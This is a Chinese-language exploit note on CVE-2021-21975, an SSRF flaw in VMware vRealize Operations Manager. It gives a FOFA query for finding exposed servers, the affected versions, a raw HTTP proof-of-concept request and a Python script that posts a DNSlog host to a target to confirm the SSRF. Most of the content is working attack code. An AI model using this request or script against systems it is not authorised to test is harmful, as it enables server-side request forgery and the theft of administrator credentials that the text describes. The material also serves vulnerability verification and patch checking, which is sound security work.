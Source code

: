 # VMware vRealize Operations Manager API SSRF漏洞 (CVE-2021-21975)

攻击者通过访问vRealize Operations Manager API传递特定的参数到服务器端进行请求伪造攻击，从而窃取管理凭据，获得一些功能的控制权限。

OVA下载：https://my.vmware.com/group/vmware/patch#search

FOFA:

```
app="vmware-vRealize-Operations-Manager"
```

影响版本：

* vRealize Operations Manager 8.3.0
* vRealize Operations Manager 8.2.0
* vRealize Operations Manager 8.1.1
* vRealize Operations Manager 8.1.0
* vRealize Operations Manager 8.0.1
* vRealize Operations Manager 8.0.0
* vRealize Operations Manager 7.5.0

**PoC：**

```
POST /casa/nodes/thumbprints HTTP/1.1
Host:target
Content-Type: application/json;charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)

["127.0.0.1:443/ui/"]
```

nuclei poc：https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-21975.yaml

poc.py：

```py
# CVE-2021-21975
# fofa：title=“vRealize Operations Manager​”

import requests
import urllib3

urllib3.disable_warnings()

def title():
    print("[-------------------------------------------------------------]")
    print("[-------- VMware vRealize Operations Manager SSRF漏洞 ---------]")
    print("[--------               CVE-2021-21975               ----------]")
    print("[--------       use:python3 CVE-2021-21975         ------------]")
    print("[--------              Author:Henry4E36            ------------]")
    print("[-------------------------------------------------------------]")


def target_url(url,dnslog):
    target_url = url + "/casa/nodes/thumbprints"
    headers = {
        "User-Agent" : "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:86.0) Gecko/20100101 Firefox/86.0",
        "Content-Type" : "application/json;charset=UTF-8"
    }
    data = f'["{dnslog}"]'
    try:
        res = requests.post(url=target_url,headers=headers,data=data,verify=False,timeout=5)
        if res.status_code == 200:
            print(f"[!]  \033[31m目标系统: {url} 可能存在SSRF漏洞，请检查DNSLog响应！\033[0m")
            print(f"[0]  响应为:{res.text}")
        else:
            print(f"[0]  目标系统: {url} 不存在SSRF漏洞")
    except Exception as e:
        print("[!]  目标系统出现意外错误！\n",e)


if __name__ == "__main__":
    title()
    url = str(input("[-] 请输入需要检测的URL:\n"))
    dnslog = str(input("[-] 请输入DNSlog:\n"))
    target_url(url,dnslog)
```

ref：

* https://www.vmware.com/security/advisories/VMSA-2021-0004.html
* https://forum.ywhack.com/thread-115338-1-7.html